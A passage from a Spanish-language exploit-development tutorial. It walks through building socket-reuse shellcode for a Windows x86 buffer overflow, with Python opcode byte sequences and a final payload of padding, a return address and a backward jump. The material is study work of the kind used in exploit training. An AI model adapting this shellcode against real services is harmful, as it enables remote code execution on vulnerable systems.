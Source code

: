 El *opcode* lo introduje en el *exploit* en la variable `recv`.

```python
recv += b"\x8b\x30" # -> mov esi, [eax]
```
Ejecute el *exploit* y *EAX* tenía la dirección en la que estaba el descriptor del *socket*, `024BFF60`.

![image](https://user-images.githubusercontent.com/69093629/158068089-76ebeb6d-c46d-4810-9f03-8d6652b52ef3.png)
 
Tras hacer un `Step Into` ya tenía almacenado el descriptor en *ESI*, ya tenía el descriptor del *socket* hecho, ahora solo me quedaba el *buffer*, la longitud y las *flags*, pero tenía un pequeño inconveniente, *EIP* ira para abajo donde se puede encontrar con *ESP*, esto podría generar problemas.

![image](https://user-images.githubusercontent.com/69093629/158068152-32692d42-6f81-4c98-b351-7c4f5eadccab.png)
 
Para solucionarlo simplemente resté 70 *bytes* a `ESP`.

![image](https://camo.githubusercontent.com/2a54af66cd0aa62eea60c0cd3322c17940f686f2456736bed2e705fb02e3d096/68747470733a2f2f696d6775722e636f6d2f346d59664771582e706e67)
 
Esto lo hice porque así posiciono *ESP* por encima de *EIP* y no habrían problemas cuando *EIP* interprete para abajo.

![image](https://user-images.githubusercontent.com/69093629/158068284-575dc5f1-f4b5-4265-8905-a2da779ee1e4.png)
 
Seguí con las *flags*, este valor tenía `0x00000000`, podía usar *EBX* para almacenarlo, hice un `xor` a `ebx` porque da como resultado 0 y también le hice un `push` a *EBX* para apilarlo al final.

![image](https://camo.githubusercontent.com/18e173f11ab4a482c711010899765142fc08c9a520c8bcb04f16331f94ff2391/68747470733a2f2f696d6775722e636f6d2f6c5276424c61652e706e67)
![image](https://user-images.githubusercontent.com/69093629/158069004-859a1247-80bd-4350-a519-10eb2e71539d.png)
  
Ahora simplemente podía sumar a *EBX* 410 *bytes* para hacer la longitud, ya que vale 0 y volver a hacer un `push` a *EBX* para apilar la longitud al final de la pila.

![image](https://camo.githubusercontent.com/7fa632f856ba659e084e99a805d0cd3c3df2c746dbbd723c5b339a43a0c8347b/68747470733a2f2f696d6775722e636f6d2f324a595a676c732e706e67)

![image](https://user-images.githubusercontent.com/69093629/158069237-bcd5bae8-5aa8-4d10-8782-77974a5c79ea.png)
 
Así estaba quedando el *exploit*.

```python
recv = b""
recv += b"\x54" 				# -> push esp
recv += b"\x58" 				# -> pop eax
recv += b"\x66\x05\x30\x02" 			# -> add ax, 0x230
recv += b"\x66\x2d\xe8\x01" 			# -> sub ax, 0x1E8
recv += b"\x8b\x30" 				# -> mov esi, dword [eax]
recv += b"\x83\xec\x70" 			# -> sub esp, 0x70
recv += b"\x31\xdb" 				# -> xor ebx, ebx
recv += b"\x53" 				# -> push ebx 
recv += b"\x66\x81\xc3\x10\x04" 		# -> add bx, 0x410
recv += b"\x53" 				# -> push ebx

payload = recv + b"\xAA"*(66 - len(recv)) + p32(0x719023A8) + b"\xeb\xb8" # -> jmp $-70
```
